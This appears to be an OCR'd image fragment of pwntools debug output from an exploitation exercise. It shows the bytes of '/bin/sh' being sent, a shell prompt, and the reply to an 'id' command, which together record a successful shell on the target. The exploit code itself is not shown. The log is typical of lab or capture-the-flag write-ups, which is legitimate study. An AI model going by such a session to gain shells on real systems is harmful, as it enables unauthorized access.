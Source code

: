 ```bash
    00000000  2f 62 69 6e  2f 73 68 00  00 00 00 00               │/bin│/sh·│····││
    0000000c
/bin/sh\x00\x00\x00\x00\x00$ id
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Received 0x81 bytes:
    'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)\n'
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$  
```